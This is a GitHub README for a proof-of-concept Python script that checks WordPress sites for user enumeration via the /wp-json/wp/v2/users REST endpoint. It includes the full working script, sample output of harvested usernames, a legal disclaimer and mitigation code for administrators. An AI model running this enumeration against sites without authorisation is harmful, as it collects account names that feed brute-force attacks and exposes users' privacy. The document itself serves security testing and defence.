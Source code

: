 A Proof-of-Concept Python script to detect and demonstrate WordPress user enumeration vulnerability via the REST API.
🚨 Description

This tool identifies WordPress sites that expose user information through the publicly accessible REST API endpoint /wp-json/wp/v2/users. This vulnerability allows attackers to enumerate all registered users, which is often the first step in targeted brute-force attacks.
⚡ Quick Start
Prerequisites

    Python 3.x

    requests library

Installation
bash

# Clone the repository
git clone https://github.com/Maimoharris/wordpress-user-enumeration-poc.git
cd wordpress-user-enumeration-poc

# Install dependencies
pip install requests

Basic Usage

    Edit the target URL in the script:

python

web_site = "https://yourtarget.com/"  # Change this to your target

    Run the script:

bash

python wordpress_user_enum.py

Advanced Usage (Command Line Arguments)

Modify the script to accept dynamic targets:
python

import sys

if len(sys.argv) > 1:
    web_site = sys.argv[1]
else:
    web_site = "https://default-target.com/"

🎯 Features

    ✅ Detects WordPress user enumeration vulnerability

    ✅ Extracts user IDs, names, and slugs

    ✅ Simple and lightweight

    ✅ No complex dependencies

    ✅ Clear vulnerability assessment

📋 Output Example
Vulnerable Site
text

Website is Vulnerable to User Enumeration!
User ID: 1
User Name: admin
User Slug: admin

User ID: 2
User Name: John Smith
User Slug: jsmith

User ID: 3
User Name: Sarah Connor
User Slug: sconnor

Secure Site
text

Website is NOT Vulnerable

🔧 Script Code
python

# WordPress User Enumeration PoC Script
# Author: Maimo Harris
import json
import requests

web_site = "https://www.targetsite.com/"
endpoint = "/wp-json/wp/v2/users"
url = f"{web_site}{endpoint}"

response = requests.get(url)
if response.status_code == 200:
    print("Website is Vulnerable to User Enumeration!")
    json_data = response.json()
    for users in json_data:
        print(f"User ID: {users['id']}")
        print(f"User Name: {users['name']}")
        print(f"User Slug: {users['slug']}\n")
else:
    print("Website is NOT Vulnerable")

🛡️ Use Cases

    Penetration Testing: Identify user enumeration vulnerabilities

    Security Auditing: Check your own WordPress installations

    Bug Bounty Hunting: Find low-hanging fruit in target scope

    Educational Purposes: Learn about WordPress security issues

    Red Team Exercises: Information gathering phase

⚠️ Legal & Ethical Usage

THIS TOOL IS FOR EDUCATIONAL AND AUTHORIZED TESTING PURPOSES ONLY

    ✅ Test on websites you own

    ✅ Use with explicit permission from the target owner

    ✅ Educational and research purposes

    ✅ Authorized penetration testing

    ❌ Do not use on websites without permission

    ❌ Do not use for malicious purposes

    ❌ Do not violate laws or regulations

The author is not responsible for any misuse of this tool.
🔒 Mitigation
For WordPress Administrators

1. Code Fix (Recommended)
Add to your theme's functions.php:
php

function disable_rest_api_user_enum() {
    if (!is_user_logged_in()) {
        wp_die('Unauthorized access', 401);
    }
}
add_action('rest_api_init', 'disable_rest_api_user_enum', 1);

2. Security Plugins

    Wordfence Security

    All In One WP Security & Firewall

    Disable WP REST API

3. Web Server Configuration
Block access to /wp-json/wp/v2/users via .htaccess (Apache) or nginx config.
📖 Technical Details

Vulnerability: Information Disclosure
CVSS Score: 5.3 (Medium)
Attack Vector: Network
Required Privileges: None
User Interaction: None

Impact:

    User enumeration leads to targeted attacks

    Increased success rate for brute-force attacks

    Privacy violation for registered users

🤝 Contributing

Contributions are welcome! Please feel free to submit pull requests or open issues for:

    Bug fixes

    Feature enhancements

    Documentation improvements

    Additional detection methods

📞 Contact

Author: Maimo Harris
Email: maimoharris111@gmail.com
LinkedIn: Maimo Harris
Blog: https://maimoharris.onrender.com
GitHub: @Maimoharris
📄 License

This project is licensed under the MIT License - see the LICENSE file for details.
⭐ Support

If you find this tool useful, please give it a star ⭐ on GitHub!

Remember: Always practice ethical hacking and obtain proper authorization before testing any system. 🔐
